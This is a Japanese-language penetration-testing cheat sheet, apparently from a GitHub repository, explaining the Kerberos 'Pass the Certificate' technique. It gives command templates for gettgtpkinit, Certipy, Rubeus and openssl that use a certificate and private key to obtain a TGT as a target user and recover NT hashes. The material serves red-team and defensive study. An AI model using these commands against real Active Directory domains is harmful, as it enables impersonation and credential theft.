 # Pass the Certificate

Kerberos認証プロトコルは、アクセスを許可するためにチケットを使用する。ST（Service Ticket）は、TGT（Ticket Granting Ticket）を提示することで取得できる。その前のTGTは、「事前認証」と呼ばれる最初のステップを検証することによってのみ取得できる（ただし、一部のアカウントでその要件が明示的に削除されている場合は、[ASREProast]()に対して脆弱になる）。事前認証は、対称的に(DES、RC4、AES128、またはAES256鍵で)検証することも、 非対称的に(証明書で)検証することもできる。非対称的な事前認証の方法は、PKINITと呼ばれる。

Pass the Certificateとは、TGT を取得するためにパスする証明書（鍵ペア）に依存する事前認証操作に付けられる仮の名前である。この操作は、[Shadow Credentials](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Shadow%20Credentials.md)、[AD CS Domain Escalation](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Certificate%20Service%20(AD-CS)/AD%20CS%20Domain%20Escalation.md)、[UnPAC-The-Hash]()とともによく実行される。

「証明書 + 秘密鍵」のペアは通常、次のように使用される

- PEM 証明書 + PEM 秘密鍵
- PFX 証明書のエクスポート (秘密鍵を含む) + PFX パスワード (PFX 証明書のエクスポートを保護する)

## Pass-The-Certificate

### Linux

#### PKINITools (gettgtpkinit.py)

PFX 証明書 (ファイル) + パスワード (文字列、オプション)

```
gettgtpkinit -cert-pfx <PATH_TO_PFX_CERT> -pfx-pass <CERT_PASSWORD> <DOMAIN>/<TargetUser> <TGT_CCAHE_FILE>
```

Base64 エンコードされた PFX 証明書 (文字列) (パスワードを設定できる)

```
gettgtpkinit -pfx-base64 $(cat <PATH_TO_B64_PFX_CERT>) <DOMAIN>/<TargetUser> <TGT_CCAHE_FILE>
```

PEM 証明書 (ファイル) + PEM 秘密鍵 (ファイル)

```
gettgtpkinit.py -cert-pem <PATH_TO_PEM_CERT> -key-pem <PATH_TO_PEM_KEY> <DOMAIN>/<TargetUser>" "TGT_CCACHE_FILE"
```

#### Certipy

Certipy のコマンドは、パスワード付きの PFX をサポートしていません。次のコマンドを使用して、PFX ファイルを「保護解除」できる

```
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out "unprotected.pfx"
```

#### 取得したチケットを悪用

取得したチケットは、次の目的で使用できる

- [Pass-The-Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Ticket.md)
- [UnPAC-the-hash]() (PKINITtools  getnthash.py )

Pass-the-Certificate に Certipy を使用すると、取得した TGT を保存するだけでなく、自動的に [UnPAC-the-hash]() を実行してアカウントの NT ハッシュを復元できる

### Windows

#### Rubeus

```
Rubeus.exe asktgt /user:<TargetUser> /certificate:<BASE64_CERTIFICATE> /password:<CERTIFICATE_PASSWORD> /domain:<DOMAIN> /dc:<DC_DOMAIN>" /show
```

PEM 証明書は openssl を使用して PFX 形式にエクスポートできます。Rubeus は PEM 証明書を処理しない

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```

Certipy は DER 暗号化を使用します。Rubeus の PFX を生成するには、openssl を使用する

```
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```

#### 取得したチケットを悪用

取得したチケットは、次の目的で使用できる

- [Pass-The-Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Ticket.md)

- [UnPAC-The-Hash]() 攻撃の実行 (Rubeus の asktgt コマンドに /getcredentials フラグを追加)